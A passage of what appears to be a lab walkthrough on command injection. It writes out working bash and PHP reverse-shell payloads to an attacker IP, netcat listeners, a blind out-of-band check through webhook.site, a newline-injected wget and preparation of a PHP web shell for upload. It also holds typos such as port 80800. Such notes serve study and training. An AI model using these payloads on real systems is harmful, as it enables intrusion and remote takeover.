 ### Bash TCP

- Refer to [Bash TCP payloads](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
- Find Bash Path: `; which bash; asd`. It gives us `/bin/bash`
- Open a port on your machine: `nc -lvnp 4242`
- Attempt Bash TCP reverse shel: `; /bin/bash -l > /dev/tcp/192.168.92.128/4242 0<&1 2>&1; asd`. It doesn't work.

### PHP

- Refer to [PHP payloads](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#php)
- Find PHP path: `; which php; asd`. It gives us `/usr/local/bin/php`
- Open a port on your machine: `nc -lvnp 4242`
- Attempt Bash TCP reverse shel: `; /usr/local/bin/php -r '$sock=fsockopen("192.168.92.128",4242);exec("/bin/sh -i <&3 >&3 2>&3");' asd`. This should establish a reverse shell connection to your machine.

## Command Injection - Blind / Out-of-Band

### Verify Command Execution

- The command executed in the backend is no longer printed out. Create a webhook address using [Webhook.site](https://webhook.site/).
- Test the command execution by entering: `https://webhook.site/<webhook_id>?"whoami"`. Check the Webhook.site interface for a request with the payload in the query string. This confirms that we can execute commands.

### Set Up the Python HTTP Server

- Start a Python HTTP server on your machine: `python3 -m http.server 80800`
- Use the following payload to test if requests can be made: `http://tcm-sec.com \\n wget 192.168.92.128:8080/test`. `\\n` (newline) ensures that the command is executed correctly. A `404` error in your server logs indicates that requests are being made successfully.

### Prepare the PHP Reverse Shell

- On your Linux machine, locate and copy the PHP reverse shell script using: `cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .`. This copies the reverse shell script to your current directory.
- Edit the `php-reverse-shell.php` file to update the IP address and port number to match your attacker's machine IP address and the port you will be listening on (`4444`).

### Deploy the Reverse Shell

#### Upload the Reverse Shell

There are two methods to upload the reverse shell:

- **Method 1**: Use `wget` to download the reverse shell directly:
